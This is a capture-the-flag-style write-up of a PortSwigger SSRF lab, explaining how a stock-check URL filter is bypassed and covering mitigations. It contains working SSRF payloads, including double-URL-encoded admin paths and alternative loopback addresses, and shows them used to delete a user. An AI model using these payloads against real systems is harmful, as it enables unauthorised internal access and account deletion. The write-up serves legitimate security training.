



# Lab 04: SSRF with Blacklist-Based Input Filter

> **Topic**: SSRF Vulnerabilities
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
SSRF — Blacklist Bypass via IP Obfuscation and URL Encoding

## Vulnerability Summary
The application's stock-check feature passes a user-supplied URL to a server-side HTTP client, but this time a blacklist filter blocks obvious SSRF payloads — specifically the strings `localhost`, `127.0.0.1`, and `/admin`. By combining two bypass techniques — replacing `127.0.0.1` with the alternative loopback representation `127.1`, and double-URL-encoding the `a` in `/admin` to `%2561` — both filters are evaded simultaneously. The server fetches the internal admin panel, and the same primitive is used to delete the target user.

## Attack Methodology

### Step 1: Recon
Opened a product page and clicked "Check stock". Intercepted the POST request in Burp and sent it to Repeater:

```
POST /product/stock HTTP/2
Host: 0acb00da046fadd680fb710500ff00c4.web-security-academy.net
Cookie: session=XAzzDmsgpAJk6uuDlwN7UEVC9vg8iGXP
Content-Type: application/x-www-form-urlencoded

stockApi=https://stock.weliketoshop.net/product/stock/check?productId=2&storeId=1
```

### Step 2: Test the Blacklist
Tried the naive SSRF payloads first to understand what the filter blocks:

| Payload | Result |
|---|---|
| `stockApi=http://localhost/admin` | 400 — blocked |
| `stockApi=http://127.0.0.1/admin` | 400 — blocked |
| `stockApi=http://127.1/admin` | 400 — `/admin` blocked |
| `stockApi=http://127.1/%61dmin` | 400 — decoded to `/admin`, still blocked |

The filter blocks `localhost`, `127.0.0.1`, and `/admin` (including single-decoded variants). It does not block `127.1` on its own, and it does not double-decode URL encoding.

### Step 3: Bypass with Double URL Encoding
The filter decodes the URL once before checking. Double-encoding `a` as `%2561` means the filter sees `%61dmin` (not `/admin`), passes it, and the backend then decodes `%61` → `a`, reconstructing `/admin`:

```
%61   →  a         (single decode — what the filter sees after one pass)
%2561 → %61 → a   (double decode — filter sees %61, backend resolves to a)
```

Combined payload — `127.1` to bypass the IP check, `%2561dmin` to bypass the path check:

```
stockApi=http://127.1/%2561dmin
```

Response: **HTTP 200**, admin panel HTML returned. The filter was bypassed.



### Step 4: Confirm Admin Panel Access
The response body contained the admin panel with the message:

> *Admin interface only available if logged in as an administrator, or if requested from loopback*

And a user list with delete links for `wiener` and `carlos`.



### Step 5: Delete the Target User
Applied the same double-encoding bypass to the delete path:

```
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

Response:

```
HTTP/2 302 Found
Location: /admin
```

The server executed the deletion. Lab solved.



## Technical Root Cause

```python
# Vulnerable — blacklist checked before URL is fully decoded
def check_stock(request):
    url = request.POST.get('stockApi', '')

    # Blacklist — single decode only
    decoded = urllib.parse.unquote(url)
    if any(x in decoded for x in ['localhost', '127.0.0.1', '/admin']):
        return HttpResponseForbidden('Blocked')

    response = requests.get(url)  # requests library decodes again internally
    return HttpResponse(response.content)
```

The filter calls `unquote()` once, then the HTTP client (`requests`) decodes the URL a second time when making the actual request. A double-encoded payload survives the single-decode check but resolves correctly at the network layer.

### Bypass Techniques Used

| Technique | Purpose | Why It Works |
|---|---|---|
| `127.1` instead of `127.0.0.1` | Bypass IP blacklist | Valid shorthand loopback — RFC 791 allows omitting zero octets |
| `%2561` instead of `a` | Bypass `/admin` path check | Filter decodes once (`%2561` → `%61`), backend decodes again (`%61` → `a`) |

### Encoding Chain

```
Attacker sends:   %2561dmin
Filter decodes:   %61dmin     ← does not match "/admin", passes
Backend decodes:  admin       ← reconstructs the real path
```

## Impact
- **Blacklist Bypass → Full Admin Access**: A filter that only decodes once is trivially bypassed with double encoding. Any string-matching blacklist applied to a URL before it is fully normalized is bypassable.
- **Unauthenticated Admin Actions**: Same impact as Labs 01–02 — the admin panel trusts loopback origin unconditionally.
- **Demonstrates Blacklists Are Fragile**: IP representations (`127.1`, `0x7f000001`, `2130706433`, `[::1]`) and encoding tricks (`%2561`, `%252f`) make exhaustive blacklisting practically impossible.

## Proof of Concept

**Step 1 — Access admin panel:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://127.1/%2561dmin
```

**Step 2 — Delete target user:**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://127.1/%2561dmin/delete?username=carlos
```

## Key Takeaways
1. **Blacklists Cannot Be Made Exhaustive**: `127.0.0.1` has dozens of valid representations — `127.1`, `0x7f000001`, `2130706433`, `127.000.000.001`, `[::1]`, `[::]`. Blocking a list of known-bad values will always have gaps.
2. **Normalize Before Checking**: Any filter that checks a URL must fully decode and normalize it first — including resolving percent-encoding, punycode, and IP alternative forms — before applying any rules. Checking the raw input is not sufficient.
3. **Double Encoding Exploits Decode Mismatches**: When the filter and the backend decode independently, a double-encoded payload passes the filter and resolves correctly at the destination. This is a classic input validation anti-pattern.
4. **Allowlists Are the Only Reliable Defense**: Instead of blocking known-bad values, permit only known-good ones. An allowlist of `{'stock.weliketoshop.net'}` makes all of these bypasses irrelevant.
5. **Labs 01–03 vs Lab 04**: The first three labs had no filter at all. Lab 04 introduces a blacklist — and demonstrates exactly why blacklists are the wrong approach to SSRF mitigation.

## Mitigation

### 1. Use an Allowlist, Not a Blacklist
```python
from urllib.parse import urlparse

ALLOWED_HOSTS = {'stock.weliketoshop.net'}

def check_stock(request):
    url = request.POST.get('stockApi', '')
    parsed = urlparse(url)
    if parsed.hostname not in ALLOWED_HOSTS:
        return HttpResponseForbidden('Host not permitted')
    response = requests.get(url)
    return HttpResponse(response.content)
```

### 2. If a Blacklist Is Used, Normalize First
```python
import urllib.parse

# Fully decode before checking — handle double encoding
def fully_decode(url):
    prev = None
    while prev != url:
        prev = url
        url = urllib.parse.unquote(url)
    return url

decoded = fully_decode(raw_url)
if any(x in decoded for x in ['localhost', '127.', '/admin']):
    return HttpResponseForbidden()
```

### 3. Block Internal Addresses After DNS Resolution
```python
import ipaddress, socket
from urllib.parse import urlparse

def is_internal(hostname):
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(hostname))
        return ip.is_loopback or ip.is_private
    except Exception:
        return True

parsed = urlparse(url)
if is_internal(parsed.hostname):
    return HttpResponseForbidden('Internal addresses not permitted')
```

Resolving the hostname to an IP and checking the IP directly is immune to all string-based bypass techniques.

## References
- [PortSwigger — SSRF with Blacklist-Based Input Filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
- [PortSwigger — Circumventing SSRF Defences](https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-04-29*  
*Writeup by vibhxr*
